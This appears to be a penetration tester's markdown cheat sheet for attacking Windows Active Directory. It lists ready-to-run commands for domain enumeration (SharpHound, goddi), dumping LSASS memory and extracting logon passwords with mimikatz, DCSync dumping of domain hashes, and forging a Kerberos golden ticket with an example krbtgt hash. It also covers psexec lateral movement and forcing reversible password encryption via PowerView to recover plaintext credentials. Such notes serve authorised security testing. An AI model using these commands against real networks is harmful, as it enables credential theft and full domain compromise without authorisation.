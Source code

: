 Running sharphound 

runas.exe /netonly /user:completedomainname\userid cmd.exe         complete fqdn eg. domainname.local

SharpHound.exe -c All -d domain.local --IgnoreLdapCert -v




Running goddi 

goddi-windows-amd64.exe  -dc="DC.domain.local" -domain="domain.local" -username="dummy" -password="dummy"  -unsafe


PinCastle for Active directory audit.  
Scan Open shares 


Lazesoft for getting local admin credentials from the PC 

Lazesoft-Recover-My-Password-Home  

https://www.lazesoft.com/forgot-windows-admin-password-recovery-freeware.html

****************************************************************************
getting dump 

C:\procdump.exe -accepteula -ma lsass.exe lsass.dmp

mimikatz

mimikatz # sekurlsa::minidump lsass2.dmp <br>
mimikatz # sekurlsa::logonPasswordsfull


**************************************************************************


ntds.dit getting hashes of users

Run from the context of the domain admin

lsadump::dcsync /domain:pentestlab.local /all /csv



lsadump::dcsync /domain:pentestlab.local /user:test <br>
By specifying the domain username with the /user parameter Mimikatz can dump all the account information of this particular user including his password hash.


****************************************************************************************************
Creating golden ticket

We can run these commands from a non domain administrator 

commands to run from mimikatz <br>
kerberos::golden /user:evil /domain:pentestlab.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e
/ticket:evil.tck /ptt


the string after krbtgt i.e. 'd125e4f69c851529045ec95ca80fa37e' is the ntml hash that we get after running the lsadump command in mimikatz

come out of mimikatz and run the command <br> 
<b> <i>klist  </i></b>

This will list all the tickets

you can now use pushd or psexec  to login to the domain controller from the current session using the golden ticket

psexec.exe \\adserver.domainame\ cmd.exe  <br>
pushd \\adserver.domainname\ 


Reference links :
https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets  <br>
https://adsecurity.org/?p=1515    ( Detecting forged kerberos tickets) 

*****************************************************************************

mitm 6

https://github.com/fox-it/mitm6

pip install -r requirements.txt <br>
pip install mitm6   or python setup.py install <br>



********************************************************************************

Responder links 

https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/ <br>
https://blog.geoda-security.com/2018/11/gaining-foothold-using-responder-and.html     ( using responder ntlmrelayx and empire ) 
 



************************************************************************************

forcing reversible encryption on user accounts

lsadump::dcsync /domain:pentestlab.local /user:test

when we run the above command we get the ntml hashes. However, we can get clear text credentials if the password is configured as reversible encryption. however, reversible encryption is generally disabled by the gpo. We can force reversible encryption on a user by using a powershell script from PowerView 
Note: we need to have domain admin credentials to be able to run the script successfully. We need to run the script once the user is locked. If the user is running the downgrade does not work. 

if we are running from a non domain system use runas using the domain admin credentials. 

We will download powerview and import the module <br>
<b>Import-Module powerview.psm1 </b>

We then run the command <br>
<b>Invoke-Downgrade -SamAccountName username which is to be downgraded  </b>


The script does the following 


 DONT_EXPIRE_PASSWORD is set, we need to flip that with Set-ADObject -SamAccountName USER -PropertyName useraccountcontrol -PropertyXorValue 65536.

Then we can set ENCRYPTED_TEXT_PWD_ALLOWED with Set-ADObject -SamAccountName USER -PropertyName useraccountcontrol -PropertyXorValue 128.

We can then manually set pwdlastset to 0, which forces the user to change their password on next login Set-ADObject -SamAccountName USER -PropertyName pwdlastset -PropertyValue 0.

Now the user will be forced to change the password once he logs in. Once the user changes the password it will be stored in reversible encrytion form in the ad database 

WE can now run the 

lsadump::dcsync /domain:pentestlab.local /user:test and we will get credentials 

Invoke-Downgrade -SamAccountName username -Repair 



<b>Imp links: </b>

https://www.harmj0y.net/blog/redteaming/targeted-plaintext-downgrades-with-powerview/  <br>
https://github.com/PowerShellEmpire/PowerTools<br>
https://www.c0d3xpl0it.com/2018/06/active-directory-attack-dcsync.html<br>
